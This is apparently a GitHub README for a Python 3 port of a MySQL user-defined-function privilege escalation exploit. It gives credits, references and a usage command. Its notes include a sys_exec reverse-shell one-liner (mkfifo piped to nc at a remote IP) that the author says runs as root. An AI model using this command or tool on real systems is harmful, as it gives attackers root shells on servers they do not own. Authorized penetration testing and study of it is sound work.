 # udf_root_py3

**Advisory**
All the binaries/scripts/code of udf_root_py3 should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own networks and/or with the network owner's permission.
* * *
**I cannot accept the credit for this really useful script. I have simply made a few changes to a script I found so that it is Python3 compatible.**
* * *

**Original:** [https://github.com/d7x/udf_root](https://github.com/d7x/udf_root)
Thank you d7x for this awesome script.
* * *

MySQL User-Defined function Dynamic Library Local Privilege Escalation

*** MySQL User-Defined (Linux) x32 / x86_64 sys_exec function local privilege escalation exploit ***

UDF lib shellcodes retrieved from metasploit (there are windows .dll libraries within metasploit as well so this could be easily ported to Windows)

Based on the famous raptor_udf.c by Marco Ivaldi (EDB ID: 1518)
CVE: N/A
References:
https://dev.mysql.com/doc/refman/5.5/en/create-function-udf.html
https://www.exploit-db.com/exploits/1518
https://www.exploit-db.com/papers/44139/ - MySQL UDF Exploitation by Osanda Malith Jayathissa (@OsandaMalith)

* * *

**Notes**

One thing I noticed when I used this script - the root shell that it attempts to give you after completing was NOT a root shell. However if you exit out of the shell it puts you into and just execute code like:
```
select sys_exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.12 80 >/tmp/f');
```
Then this will execute as root.

To run the tool - use like:
```
python3 udf_root_py3.py --username root --password rootPassword
```
